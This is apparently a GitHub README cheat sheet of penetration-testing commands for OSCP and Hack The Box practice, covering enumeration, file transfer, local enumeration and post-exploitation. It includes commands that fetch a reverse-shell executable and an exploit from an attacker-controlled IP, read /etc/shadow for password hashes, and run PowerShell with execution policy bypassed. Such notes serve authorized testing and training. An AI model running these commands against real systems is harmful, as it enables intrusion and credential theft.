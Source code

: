 # Hacking-Cheatsheet
In this repo I collect all commands, links, techniques and tricks i found during my work as pentester, hacker, OSCP student and hack the box fan.

- [External Enumeration](#external-enumeration)
  - [OSINT](#osint)
  - [Port-Scanning](#port-scanning)
  - [SMB-Enumeration](#smb-enumeration)
  - [SMTP-Enumeration](#smtp-enumeration)
  - [SNMP-Enumeration](#snmp-enumeration)
- [File Transfer and File Downloads](#file-transfer-and-file-downloads)
  - [Windows](#windows)
  - [Python Webserver](#python-webserver)
- [Creating Exploits](#creating-exploits)
  - [Buffer Overflows](#buffer-overflows)
- [Local Enumeration](#local-enumeration)
  - [Local Linux Enumeration](#local-linux-enumeration)
  - [Local Windows Enumeration](#local-windows-enumeration)
- [Post Exploitation](#post-exploitation)
  - [Linux Post Exploitation](#linux-post-exploitation)
  - [Windows Post Exploitation](#windows-post-exploitation)


# External Enumeration

## OSINT
### Crawl words from website for passwordlist
```bash
cewl <domain> -m 6 -w words.txt
```

## Port-Scanning
Scan all ports with Service Detection
```bash
nmap -v -A -p- <Target-IP>
```

## SMB-Enumeration

### Enum4Linux
```bash
enum4linux -a <IP>
```

### rpcclient
```bash
rpcclient -U "" <Target IP>
```
enter empty password

Commands in rpcclient console:
- srvinfo: Identify OS Versions
- enumdomusers: List of Usernames on this server
- getdompwinfo: Displays SMB password policy

## SMTP-Enumeration
SMTP-Enumeration with netcat
```bash
for user in $(cat typical_usernames_SMTP_Enumeration.txt); do echo VRFY $user |nc -nv -w 1 <Target-IP> 25 2>/dev/null |grep ^"250";done
```

## SNMP-Enumeration

Enumerate set of IPs for different SNMP communities
```bash
onesixtyone -c community_names.txt -i ips.txt
```
examples for community names:
- public


Get list of running programms
```bash
snmpwalk -c public -v1 192.168.31.227 1.3.6.1.2.1.25.4.2.1.2
```

Get list of open ports
```bash
snmpwalk -c public -v1 192.168.31.227 1.3.6.1.2.1.6.13.1.3
```

Get list of installed software
```bash
snmpwalk -c public -v1 192.168.31.227 1.3.6.1.2.1.25.6.3.1.2
```


# File Transfer and File Downloads

## Windows
### Download Files with Certutil
```bash
certutil.exe -urlcache -f http://<ip>:<port>/<filename> <localfilename>
```
Example:
```bash
certutil.exe -urlcache -f http://10.10.14.37:8080/shell.exe reverse_shell.exe
```

### Downlaod Files with Powershell
```cmd
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.30.5/exploit.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url, $file) >>wget.ps1
```

Execute File with: [Execute Powershell File, bypass all policies](#execute-powershell-file-bypass-all-policies)

## Python Webserver
Create webserver listening to port 8080 offering files from current working directory
```bash
python3 -m http.server 8080
```
# Creating Exploits

## Creating Exploits with msfvenom

## Buffer Overflows

### Create unique pattern
Create a unique pattern to identify correct position for buffer overflow
```bash
/usr/share/metasploit-framework/tools/pattern_create.rb <# bytes>
```

# Local Enumeration

## Local Linux Enumeration

### System information/version
Show information about kernel and linux system
```bash
uname -a
```

Show linux version
```bash
cat /etc/issue
```

### Find local users
```bash
cat /etc/passwd
```

### Password hashes
```bash
cat /etc/shadow
```

### Find world writable files
```bash
find / -perm -2 ! -type l -ls 2>/dev/null
```

## Local Windows Enumeration

### Open Ports local
```cmd
netstat -an
```

### Check permission of executable
```bash
icacls <filename>
```

# Post Exploitation
## Linux Post Exploitation
### Create tty console with python
```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```
```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

## Windows Post Exploitation
### Execute Powershell file, bypass all policies
```cmd
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1
```

### RDP Connection from Linux Host to Windows target
```cmd
rdesktop -u <User> -p <Password> <Target-IP>
```
